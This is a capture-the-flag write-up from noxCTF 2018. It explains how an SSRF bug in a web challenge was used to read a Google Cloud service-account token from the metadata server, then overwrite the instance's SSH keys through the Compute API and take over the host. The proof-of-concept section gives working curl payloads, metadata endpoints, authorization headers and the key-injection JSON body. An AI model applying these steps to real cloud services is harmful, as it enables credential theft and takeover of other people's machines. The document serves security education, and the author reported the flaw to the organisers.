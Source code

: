 # noxCTF-2018-PSRF-as-Pwn

## Introduction
This article was a CTF (Capture the flag) writeup, and it shows a common mistake that happend when designing a CTF challange.
Basically, it shows if a challenge can access the internal network, and the machine is on a Cloud service provider, then you might have the change to take it over.
The following are the technique details.

## Story
When I was play [noxCTF 2018](https://ctftime.org/event/671), I saw a challenge named PSRF and it under web category, then I thought that might be SSRF, PostScript, or both.  
Then I decided to look at that.
I trying to solve it by the way I think it should be, but I always got HTTP 500 when I trying to access another server, so I decided to use another way to do it.

There are some terms that usually appear on CTF and Information Security Area
- SSRF: [Server-Side Request Forgery](https://en.wikipedia.org/wiki/Server-side_request_forgery)
It is become a common vulnerability after [this presentation by Orange](https://www.blackhat.com/docs/us-17/thursday/us-17-Tsai-A-New-Era-Of-SSRF-Exploiting-URL-Parser-In-Trending-Programming-Languages.pdf)
- PostScript: [Wikipedia](https://en.wikipedia.org/wiki/PostScript)
  Ghostscript is its common interpreter, and there are [multiple vulnerabilities](https://www.exploit-db.com/exploits/45243/) disclose recently. It was one of the [challenge](https://ctftime.org/task/6522) of [TokyoWesterns CTF 4th 2018](https://ctftime.org/event/651)

## Recon
The challenge provide an input box and a radio box, and it will send a HTTP GET request to 
`http://35.241.245.36/api/v1/upload?url=http://your_url&method=get`  
like this, and it will return an image name, and the result of the SSRF will store under `http://35.241.245.36/images/`  
  
The challenge has kubernetes logo on the bottom of the page like the screenshot below, and the IP is 35.241.245.36.  
![Page Screenshot](https://github.com/seadog007/noxCTF-2018-PSRF-as-Pwn/raw/master/%E8%9E%A2%E5%B9%95%E5%BF%AB%E7%85%A7%202018-09-10%20%E4%B8%8A%E5%8D%883.10.19.png)  
  
I immediately realized that is a GCP machine, so I tested the backend server by sending HTTP request to my server to see if it is also on GCP, and it is.  
![GCP determine](https://github.com/seadog007/noxCTF-2018-PSRF-as-Pwn/raw/master/%E8%9E%A2%E5%B9%95%E5%BF%AB%E7%85%A7%202018-09-10%20%E4%B8%8A%E5%8D%883.38.42.png) 

## Cloud Based Attack
I think there is not much people know about [http://metadata.google.internal](http://metadata.google.internal).  
Well, basically, it is a "feature" provided by Google Cloud Platform, you can use it to access information about the project and instances, but it also include the time limited API token of service account under the project. It is enable by the default.

## PoC
1. Sending SSRF Payload and get the result  
```
curl -s 'http://35.241.245.36/images/'`curl -s "http://35.241.245.36/api/v1/upload?url=http://metadata.google.internal/computeMetadata/v1beta1/instance/service-accounts/default/token&method=get"`
```

2. And you will get something like this, one access token, and it's type, which is Bearer.
```
{"access_token":"xxxxxxxxxx","expires_in":3063,"token_type":"Bearer"}
```

3. Doing this for other information we need  
```
http://metadata.google.internal/computeMetadata/v1/project/project-id
http://metadata.google.internal/computeMetadata/v1/instance/name
http://metadata.google.internal/computeMetadata/v1/instance/zone
```

4. Now, you can use this API on your own computer `https://www.googleapis.com/compute/v1/projects/{}/zones/{}/instances/{}`  
  With header
```
Metadata-Flavor: Google
Authorization: Bearer xxxxxxxx_token_from_first_step_xxxxxxxx
```

5. You will get some thing like this.
```
.........................
 ],
 "metadata": {
  "kind": "compute#metadata",
  "fingerprint": "2bsm86CRs-0=",
  "items": [
   {
    "key": "instance-template",
    "value": "projects/720594190990/global/instanceTemplates/gke-psrf-dev-default-pool-9ae6b68d"
   },
   {
    "key": "created-by",
    "value": "projects/720594190990/zones/europe-west1-b/instanceGroupManagers/gke-psrf-dev-default-pool-9ae6b68d-grp"
   },
   {
    "key": "gci-update-strategy",
    "value": "update_disabled"
   }
.........................
```
    We only need the fingerprint

6. Set the ssh key
Send a POST request to this link with the header and data
`https://www.googleapis.com/compute/v1/projects/{}/zones/{}/instances/{}/setMetadata`  
```
Metadata-Flavor: Google
Authorization: Bearer xxxxxxxx_token_from_first_step_xxxxxxxx
Content-Type: application/json
```
```
{
  "fingerprint":"2bsm86CRs-0=",
  "items": [
    {
      "key": "sshKeys",
      "value": "username:ssh-rsa AAAAB..................4KeQzSMFH userid"
    }
  ]
}
```
7. You just replace the original ssh key to yours.
P.S. You can also do this on the whole project.  
The API detail can be found on [Managing SSH keys in Metadata](https://cloud.google.com/compute/docs/instances/adding-removing-ssh-keys)

## Solving the challenge by not its design
I ssh to the server. I know it is using kubernetes, so I run `docker ps`  
![docker ps](https://github.com/seadog007/noxCTF-2018-PSRF-as-Pwn/raw/master/%E8%9E%A2%E5%B9%95%E5%BF%AB%E7%85%A7%202018-09-10%20%E4%B8%8A%E5%8D%883.57.22.png)

Then `docker exec -it xxxxxxxxx /bin/sh`  
Then `ls`

![source code](https://github.com/seadog007/noxCTF-2018-PSRF-as-Pwn/raw/master/%E8%9E%A2%E5%B9%95%E5%BF%AB%E7%85%A7%202018-09-07%20%E4%B8%8B%E5%8D%8811.10.32.png)

Easy, just solved the challenge by looking at the source code

## Follow up
I report this security issue to the team, and just fix it pretty quick.  
![coversation_1](https://github.com/seadog007/noxCTF-2018-PSRF-as-Pwn/raw/master/%E8%9E%A2%E5%B9%95%E5%BF%AB%E7%85%A7%202018-09-07%20%E4%B8%8B%E5%8D%8811.28.22.png)  
![coversation_2](https://github.com/seadog007/noxCTF-2018-PSRF-as-Pwn/raw/master/%E8%9E%A2%E5%B9%95%E5%BF%AB%E7%85%A7%202018-09-07%20%E4%B8%8B%E5%8D%8811.43.38.png)

## Applicable environment
Not only GCP has these kind of management interface, you can also found similar thing on AWS.  
Most of CTF use docker to host challenges, but in most of the challenges that don't limit the network, so it is possible to do a privilege escalation on pwn or web challenges.

## References
[Twistlock Protection for Kubernetes Specific Attacks](https://www.twistlock.com/2018/05/30/twistlock-protection-kubernetes-specific-attacks/)
